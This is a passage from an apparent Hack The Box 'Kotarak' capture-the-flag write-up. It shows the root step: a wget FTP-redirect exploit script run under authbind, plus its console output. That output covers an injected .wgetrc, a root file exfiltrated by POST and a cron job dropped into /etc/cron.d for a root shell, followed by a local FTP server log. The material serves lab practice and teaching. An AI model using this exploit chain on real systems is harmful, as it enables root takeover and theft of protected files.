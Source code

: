 Generally, we can't use the port 80 as a general user.<br>
But, we can obtain the purpose by using "authbind" command.<br>
In the POST request, we can see the content of "root.txt".
{% highlight shell %}
atanas@kotarak-dmz:/tmp$ authbind --deep python wget-exploit.py
authbind --deep python wget-exploit.py
Ready? Is your FTP server running?
FTP found open on 10.10.14.36:21. Let's go then

Serving wget exploit on port 80...


We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root 

10.0.3.133 - - [14/Jan/2020 12:12:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.14.36:21/.wgetrc 

We have a volunteer requesting /archive.tar.gz by POST :)

Received POST from wget, this should be the extracted /etc/shadow file: 

---[begin]---
 950d1425795dfd38272c93ccbb63ae2c

---[eof]---


Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [14/Jan/2020 12:14:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) 
{% endhighlight %}

#### Output of python local FTP server:
{% highlight shell %}
root@kali:~# python -m pyftpdlib -p 21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2020-01-14 19:06:59] >>> starting FTP server on 0.0.0.0:21, pid=115096 <<<
[I 2020-01-14 19:06:59] concurrency model: async
[I 2020-01-14 19:06:59] masquerade (NAT) address: None
[I 2020-01-14 19:06:59] passive ports: None
[I 2020-01-14 19:07:11] 10.10.10.55:54274-[] FTP session opened (connect)
[I 2020-01-14 19:08:35] 10.10.10.55:50788-[] FTP session opened (connect)
[I 2020-01-14 19:08:35] 10.10.10.55:50788-[anonymous] USER 'anonymous' logged in.
[I 2020-01-14 19:08:35] 10.10.10.55:50788-[anonymous] RETR /root/.wgetrc completed=1 bytes=73 seconds=0.002
[I 2020-01-14 19:08:35] 10.10.10.55:50788-[anonymous] FTP session closed (disconnect).
{% endhighlight %}
